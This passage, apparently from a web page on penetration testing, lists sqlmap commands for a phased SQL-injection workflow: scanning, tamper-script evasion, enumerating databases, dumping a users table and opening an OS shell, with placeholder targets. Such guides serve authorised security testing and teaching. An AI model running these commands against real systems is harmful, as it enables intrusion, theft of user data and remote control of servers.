     # Initial vulnerability scan
    python sqlmap.py -u "target" --batch --level=1 --risk=1
:::
:::

::: feature-card
#### 2. Testing Phase

::: code-block
    # Comprehensive scan
    python sqlmap.py -u "target" --level=3 --risk=2 --batch

    # Multiple injection techniques
    python sqlmap.py -u "target" --technique=BEUST

    # Custom tamper scripts
    python sqlmap.py -u "target" --tamper=randomcase,space2comment
:::
:::

::: feature-card
#### 3. Exploitation Phase

::: code-block
    # Database enumeration
    python sqlmap.py -u "target" --dbs --tables --columns

    # Sensitive data extraction
    python sqlmap.py -u "target" -D db -T users --dump

    # System access (if authorized)
    python sqlmap.py -u "target" --os-shell
:::
:::

::: feature-card
#### 4. Documentation Phase

::: code-block
    # Generate comprehensive report
    python sqlmap.py -u "target" --batch --output-dir=report/
